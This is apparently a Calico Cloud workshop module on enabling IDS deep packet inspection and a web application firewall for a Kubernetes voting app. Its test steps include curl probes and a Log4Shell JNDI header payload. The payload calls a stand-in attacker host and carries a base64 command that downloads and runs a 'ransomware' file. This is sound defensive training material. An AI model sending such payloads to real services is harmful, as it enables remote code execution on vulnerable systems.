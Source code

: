 # Module 5 - Configuring IDS protection and Workload-Centric WAF

Security teams need to run DPI quickly in response to unusual network traffic in clusters so they can identify potential threats. Also, it is critical to run DPI on select workloads (not all) to efficiently make use of cluster resources and minimize the impact of false positives. Calico Cloud provides an easy way to perform DPI using Snort community rules. You can disable DPI at any time, selectively configure for namespaces and endpoints, and alerts are generated in the Alerts dashboard in Manager UI.

For this workshop we will enable the IDS for the vote service and observe the alerts being created when trying to expoit some vulnerabilities.

1. First enable the Intrusion Detection

   ```yaml
   kubectl apply -f - <<-EOF
   apiVersion: operator.tigera.io/v1
   kind: IntrusionDetection
   metadata:
     name: tigera-secure
   spec:
     componentResources:
     - componentName: DeepPacketInspection
       resourceRequirements:
         limits:
           cpu: "1"
           memory: 1Gi
         requests:
           cpu: 100m
           memory: 100Mi
   EOF
   ```

2. Next, create a deep packet inspection for the vote application in the vote namespace.

   ```yaml
   kubectl apply -f - <<-EOF
   apiVersion: projectcalico.org/v3
   kind: DeepPacketInspection
   metadata:
     name: dpi-ids-vote
     namespace: vote
   spec:
     selector: app == "vote"
   EOF
   ```

3. Test the IDS emulating an attack to the vote service:

   - Find the IP address of the vote application

     ```bash
     kubectl get svc -n vote 
     ```

   - From your shell, execute the following commands, substituting the xx.xx.xx.xx for the IP address of the vote application.

     ```bash
     curl -m2 http://xx.xx.xx.xx./cmd.exe
     curl -m2 http://xx.xx.xx.xx/NessusTest
     ```

   - Observe the results in the Service Graph. Alerts will be generated warming you about the exploitation attempt.

---

A web application firewall (WAF) protects web applications from a variety of application layer attacks such as cross-site scripting (XSS), SQL injection, and cookie poisoning, among others. Given that attacks on apps are the leading cause of breaches, you need to protect the HTTP traffic that provides a gateway to valuable app data.

Calico Cloud WAF allows you to selectively run service traffic within your cluster, and protect intra-cluster traffic from common HTTP-layer attacks such as SQL injection, and cross-site request forgery. To increase protection, you can use Calico Cloud network policies to enforce security controls on selected pods on the host.

1. Deploy the WAF, by running the following command:

   ```bash
   kubectl apply -f waf
   ```

2. Start a pod to simulate an attack to the vote service.

   ```bash
   kubectl run attacker --image nicolaka/netshoot -it --rm -- /bin/bash
   ```
3. Before protecting the service with the WAF, try the following command from the attacker shell. This will simulate an LOG4J attack.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```

4. Now enable the WAF by using the following command, from your shell (not from the pod attacker).

   ```
   kubectl patch applicationlayer tigera-secure --type='merge' -p '{"spec":{"webApplicationFirewall":"Enabled"}}'
   ```

5. Go back to the attack pod, and repeat the request.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```
   
   You will note that the result will be a HTTP 403 - Forbidden. This returns from the WAF.

--- 

[:arrow_right: Module 6 - Detect Zero-Day Attacks with Threat Defence](/modules/module-6-threat-defence.md)  <br>

[:arrow_left: Module 4 - Security Guardrails for Network-based Threats](/modules/module-4-security-guardrails.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  
